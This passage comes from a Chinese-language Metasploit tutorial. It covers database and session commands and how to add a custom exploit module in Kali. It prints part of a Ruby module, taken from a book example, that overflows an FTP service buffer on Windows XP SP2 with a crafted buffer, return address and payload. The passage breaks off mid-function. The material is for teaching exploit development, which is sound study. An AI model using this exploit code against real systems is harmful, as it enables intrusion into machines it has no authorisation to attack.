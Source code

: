 ```
```
```
workspace   在数据库工作区之间切换
```
## 凭证后端命令

============================
```
creds   列出数据库中的所有凭据

```
```
sessions                    \\查看监听端口
```
resource 命令便可以直接执行我们预定好的操作
```
resource                    \\执行预定操作
```

## 给kali的Metasploit下添加一个新的exploit

`/usr/share/metasploit-framework/modules/exploits`目录下新建一个自定义文件夹，例如JOJO
![](img/14.png)

> 仿造`exploits`目录下的其他`exp(rb文件)`编写自己的exp.rb脚本(这边用0day安全:软件漏洞分析技术里的一个栗子)
```
root@kali:/usr/share/metasploit-framework/modules/exploits/fwdtest# ls
0day1.rb
root@kali:/usr/share/metasploit-framework/modules/exploits/fwdtest# cat 0day1.rb
##
```
```rb
# This module requires Metasploit: http//metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##
require 'msf/core'
class Metasploit3 < Msf::Exploit::Remote
  include Msf::Exploit::Remote::Ftp
  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'security test',
      'Description'    => %q{
          This module exploits a buffer overflow.
      },
      'Author'         => 'fwd',
      'License'        => MSF_LICENSE,
      'Privileged'     => true,
      'Payload'        =>
        {
          'Space'    => 300,
          'BadChars' => "\x00",
        },
      'Platform' 		  => 'win',
      'Targets'        =>
        [
          [ 'Windows XP Pro SP2 English',           { 'Ret' => 0x7c809f83 } ],
        ]))
  end
 
  def exploit
    connect
    attack_buf =  'a'*200
    attack_buf += [target.ret].pack('V')
    attack_buf += payload.encoded
```